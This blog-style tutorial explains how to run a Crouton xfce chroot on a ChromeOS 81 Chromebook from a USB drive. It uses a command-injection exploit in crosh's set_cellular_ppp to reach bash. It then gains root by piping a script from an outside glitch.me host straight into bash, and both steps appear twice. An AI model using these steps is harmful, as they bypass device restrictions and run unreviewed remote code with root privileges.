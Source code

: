 # Adventures in Chroots

This post is a follow-up to "Privelige escalation without un-enrolling". If you haven't read it yet, then you totally should.

After discovering how to run executables off of a USB drive mounted with `exec`, I wanted to get Crouton running, to allow for a graphical environment to run piggybacking off of ChromeOS's X server. After a bit of experimenting, I managed to get everything running as expected, and I'll walk you through the steps below. 

First off, downgrade to ChromeOS 81. It's required for this whole thing to work. Open up crosh and use the `set_cellular_ppp` exploit to get to bash:

```
set_cellular_ppp \';bash;exit;\'
```

Now, we get root...

```bash
bash <(curl https://hostz.glitch.me/80.sh)
```

And after a few seconds, you should be dropped into an SSH session pointing to `localhost`. Plugin your USB drive or SD card (ext4 formatted) now. Find it (it's usually /dev/sda) with `fdisk`:

```bash
fdisk -l
```

Now, we need to create a mount point, and we'll do so in the only mounted filesystem that is read-write: `chronos`'s home directory.

```bash
mkdir -p /home/chronos/usbdrv
```

And we mount the USB drive (replacing /dev/sdX with the block device that points to your USB drive/SD card):

```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv
cd /home/chronos/usbdrv
ls # Verify that the files were mounted.
```
Now we need to download the git repo:

```bash
curl https://github.com/rainestorme/crouton/archive/refs/tags/downloadlink.tar.gz -o crouton.tar.gz
tar -xvf crouton.tar.gz
mv crouton-downloadlink crouton
rm crouton.tar.gz
cd crouton
```

Now that we have the crouton source, we need to add the `host-bin` directory to the `$PATH`. 

```bash
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
```

To install a chroot, we need to also download the crouton installer (I know, It's tedious).

```bash
curl https://raw.githubusercontent.com/dnschneid/crouton/master/installer/crouton -o crouton
chmod +x crouton
```

Finally, we need to install a chroot. A list of targets is available on [here](https://github.com/rainestorme/crouton/tree/master/targets). I personally reccommend `xfce` for lower-end Chromebooks, so that's what I went with in this tutorial.

```bash
./crouton -t xfce -p ./
```

This command will take a bit (for me it took 50 minutes on my `lars` Chromebook) and will eventually prompt you for a username and password. Set them (the password won't be shown in the terminal) and wait for the rest of the process to finish.

Now that you've installed the chroot, you can run `startxfce` (in the case that you chose an xfce desktop environment) and it will mount the required filesystems automatically.

In the case that you restarted your terminal at any point after installing the chroot, then you can run the following commands to remount the drive and add the scripts back to your `$PATH`:

```bash
# In crosh
set_cellular_ppp \';bash;exit;\'
# In bash
bash <(curl https://hostz.glitch.me/80.sh)
# In the root SSH prompt
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Remember to replace /dev/sdX, use "fdisk -l" to find your drive
cd /home/chronos/usbdrv
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
startxfce
```
